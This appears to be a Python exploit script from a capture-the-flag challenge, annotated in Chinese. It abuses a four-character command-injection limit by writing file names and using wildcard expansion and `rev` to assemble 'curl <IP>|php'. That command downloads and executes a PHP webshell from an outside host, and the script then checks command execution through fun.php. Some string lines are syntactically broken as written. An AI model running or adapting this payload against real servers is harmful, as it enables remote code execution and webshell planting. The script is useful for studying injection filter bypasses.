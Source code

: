 ```python
    hashlib.md5('orange' + your_ip).hexdigest() + '/'
 
# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符
 
payload = [
    '>dir',
    # 创建名为 dir 的文件
 
    '>%s>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件
 
    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s
 
    '>sl',
    # 创建名为 >sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f> kt- sl
 
    '*>v',
    # 前文提到， * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
    #  前面提到dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
    # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符
 
    '>rev',
    # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v
 
    '*v>%s' % pos2,
    # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。前文也提过了，体会一下。
    # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f
 
    # 续行分割 curl 0x11223344|php 并逆序写入
    '>p',
    '>ph\',
    '>|\',
    '>%s\' % ip[8:10],
    '>%s\' % ip[6:8],
    '>%s\' % ip[4:6],
    '>%s\' % ip[2:4],
    '>%s\' % ip[0:2],
    '> \',
    '>rl\',
    '>cu\',
 
    'sh ' + pos2,
    # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
    # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
    'sh ' + pos0,
    # sh f 执行curl命令，下载文件，写入木马。
]
 
s = r.get(reset)
for i in payload:
    assert len(i) <= 4
    s = r.get(cmd + i)
    print '[%d]' % s.status_code, s.url
    sleep(0.1)
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print '[%d]' % s.status_code, s.url
print s.text
```